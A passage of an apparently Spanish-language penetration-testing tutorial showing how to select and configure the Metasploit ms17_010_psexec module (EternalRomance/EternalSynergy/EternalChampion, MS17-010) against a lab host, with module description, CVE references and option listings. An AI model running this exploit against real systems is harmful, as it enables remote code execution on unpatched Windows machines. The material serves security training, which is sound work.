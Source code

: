 ```
Payload information:
  Space: 3072

Description:
  This module will exploit SMB with vulnerabilities in MS17-010 to
  achieve a write-what-where primitive. This will then be used to
  overwrite the connection session information with as an
  Administrator session. From there, the normal psexec payload code
  execution is done. Exploits a type confusion between Transaction and
  WriteAndX requests and a race condition in Transaction requests, as
  seen in the EternalRomance, EternalChampion, and EternalSynergy
  exploits. This exploit chain is more reliable than the EternalBlue
  exploit, but requires a named pipe.

References:
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/MS17-010
  https://nvd.nist.gov/vuln/detail/CVE-2017-0143
  https://nvd.nist.gov/vuln/detail/CVE-2017-0146
  https://nvd.nist.gov/vuln/detail/CVE-2017-0147
  https://github.com/worawit/MS17-010
  https://hitcon.org/2017/CMT/slide-files/d2_s2_r0.pdf
  https://blogs.technet.microsoft.com/srd/2017/06/29/eternal-champion-exploit-analysis/

Also known as:
  ETERNALSYNERGY
  ETERNALROMANCE
  ETERNALCHAMPION
  ETERNALBLUE

```

Después de estar satisfechos de que el módulo seleccionado es el adecuado para nuestro propósito, necesitamos establecer algunas especificaciones para personalizar el módulo para usarlo con éxito en nuestro host de destino, como configurar el objetivo (`RHOST`o`RHOSTS`).

### **MSF - Especificación de destino**

Módulos

```
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40

msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   DBGTRACE              false                                    yes       Show extra debug trace info
   LEAKATTEMPTS          99                                       yes       How many times to try to leak transaction
   NAMEDPIPE                                                      no        A named pipe that can be connected to (leave blank for auto)
   NAMED_PIPES           /usr/share/metasploit-framework/data/wo  yes       List of named pipes to check
                         rdlists/named_pipes.txt
   RHOSTS                10.10.10.40                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework
                                                                            /wiki/Using-Metasploit
   RPORT                 445                                      yes       The Target port (TCP)
   SERVICE_DESCRIPTION                                            no        Service description to to be used on target for pretty listing
```